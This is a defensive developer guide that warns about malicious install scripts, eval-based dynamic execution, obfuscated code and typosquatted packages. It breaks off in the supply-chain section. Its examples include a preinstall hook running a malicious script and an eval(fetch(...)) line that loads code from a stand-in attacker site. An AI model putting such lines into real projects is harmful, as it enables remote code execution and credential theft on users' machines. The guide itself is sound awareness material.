 ## Research This Type of Code

Understanding potentially harmful code patterns can help you avoid falling for malicious scams or installing unsafe packages. Always research the following types of code:

### Post and Pre-Install Scripts

- **Description:** These scripts run automatically when installing a package (`npm install`, `yarn install`, `pip install`). Malicious packages can execute harmful code on your machine even before you run your project.

- **Example:**

  ```json
  {
    "scripts": {
      "preinstall": "node malicious-script.js"
    }
  }
  ```

- **How to Stay Safe:** Always check the `package.json` file before installing a package. Use `npm install --ignore-scripts` if unsure.

### eval() and Dynamic Code Execution

- **Description:** The `eval` function and similar methods (`new Function()`, `setTimeout('code')`, `setInterval('code')`) execute arbitrary code, which attackers can exploit to steal credentials, inject malicious scripts, or run unauthorized commands.

- **Example:**

  ```javascript
  eval(fetch("https://malicious-site.com/steal-info.js"));
  ```

- **How to Stay Safe:** Avoid using `eval()` or any dynamically executed code. Use safer alternatives like `JSON.parse()` or secure function calls.

### Obfuscated or Minified Code

- **Description:** Attackers often hide malicious payloads in minified or obfuscated code, making it harder to detect harmful behavior.

- **Example:**

  ```javascript
  var a = "\x6c\x6f\x63\x61\x74\x69\x6f\x6e";
  ```

- **How to Stay Safe:** If you encounter obfuscated code, use tools like `js-beautify` or `deobfuscator.io` to inspect it before execution.

### Supply Chain Attacks & Dependency Hijacking

- **Description:** Attackers publish malicious packages with names similar to popular ones (typosquatting) or inject backdoors into compromised packages.

